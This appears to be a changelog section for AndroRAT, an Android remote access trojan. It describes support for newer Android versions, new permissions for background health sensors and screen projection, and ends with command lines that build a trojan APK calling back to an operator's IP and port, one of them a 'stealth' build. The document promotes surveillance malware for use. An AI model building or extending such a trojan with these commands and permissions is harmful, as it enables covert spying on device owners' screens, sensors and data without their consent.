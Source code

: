 
## 📊 Android Version Support Matrix

| Android Version | API Level | Support Status | Key Features |
|----------------|-----------|----------------|--------------|
| Android 6.0+   | 23+       | ✅ Full Support | Base compatibility |
| Android 12+    | 31+       | ✅ Enhanced Features | Foreground services |
| Android 13+    | 33+       | ✅ Modern Permissions | POST_NOTIFICATIONS, Media permissions |
| Android 14+    | 34+       | ✅ Visual Media | READ_MEDIA_VISUAL_USER_SELECTED |
| **Android 15+** | **35+**   | ✅ **Latest Features** | **Health sensors, Media projection** |
| **Android 16**  | **36**    | ✅ **Future Ready** | **Forward compatibility** |

---

## 🔑 New Permissions Added

### Android 15+ (API 35)

1. **BODY_SENSORS_BACKGROUND**
   - Purpose: Access to health and fitness sensors in background
   - Use case: Continuous health monitoring
   - Runtime permission: Yes

2. **ACCESS_MEDIA_PROJECTION_STATE**
   - Purpose: Access to media projection state for partial screen sharing
   - Use case: Screen sharing and recording
   - Runtime permission: Yes

3. **FOREGROUND_SERVICE_HEALTH**
   - Purpose: Foreground service type for health-related background work
   - Use case: Health data collection services
   - Requires: Android 14+ (API 34+)

---

## 🛠️ Technical Details

### Backward Compatibility

All changes maintain full backward compatibility:
- Permission checks use `Build.VERSION.SDK_INT` conditionals
- Android 15+ features are only requested on compatible devices
- Graceful degradation on older Android versions

### Build Process

No changes required to build process:
```bash
# Standard build still works
python3 server/androRAT.py --build -i 192.168.1.100 -p 8080 -o app.apk

# Stealth build still works
python3 server/androRAT.py --build --stealth -i 192.168.1.100 -p 8080 -o stealth.apk
```
